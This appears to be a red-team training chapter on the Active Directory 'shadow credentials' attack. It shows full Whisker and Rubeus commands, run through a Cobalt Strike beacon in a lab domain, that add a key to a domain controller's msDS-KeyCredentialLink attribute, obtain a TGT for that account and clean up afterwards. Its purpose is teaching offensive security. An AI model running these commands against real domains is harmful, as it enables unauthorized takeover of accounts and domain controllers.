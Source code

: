 
Whilst Kerberos pre-authentication is typically carried out using a symmetric key derived from a client's password, asymmetric keys are also possible via Public Key Cryptography for Initial Authentication (PKINIT).  If a PKI solution is in place, such as Active Directory Certificate Services (next chapter), the domain controllers and domain members exchange their public keys via the appropriate Certificate Authority.  This is called the Certificate Trust model.

There is also a Key Trust model, where trust is established based on raw key data rather than a certificate.  This requires a client to store their key on their own domain object, in an attribute called `msDS-KeyCredentialLink`.  The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal.  As such, this is a DACL-style abuse as with RBCD.

Along with his excellent [blog post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) on the subject, [Elad Shamir](https://twitter.com/elad_shamir) published a tool called [Whisker](https://github.com/eladshamir/Whisker), which makes exploiting this very easy.  First, we want to list any keys that might already be present for a target - this is important for when we want to clean up later.


```bash

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
[*] No entries!
```

Add a new key pair to the target.

```bash

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password y52EhYqlfgnYPuRb
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```

And now, we can ask for a TGT using the Rubeus command that Whisker provides.

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=dc-2$ 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\dc-2$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIGaj [...snip...] MuaW8=

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  dc-2$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  1/21/2023 7:12:27 PM
  EndTime                  :  1/22/2023 5:12:27 AM
  RenewTill                :  1/28/2023 7:12:27 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  bKJ76Br5CFOL6zckBpl9IA==
  ASREP (key)              :  B0AA392AE0C969E268DAC4462D76FC90
```

Whisker's `clear` command will remove any and all keys from msDS-KeyCredentialLink.  This is a bad idea if a key was already present, because it will break legitimate passwordless authentication that was in place.  If this was the case, you can list the entries again and only remove the one you want.

```bash
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
    DeviceID: 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403 | Creation Time: 1/21/2023 7:19:04 PM

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Found value to remove
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```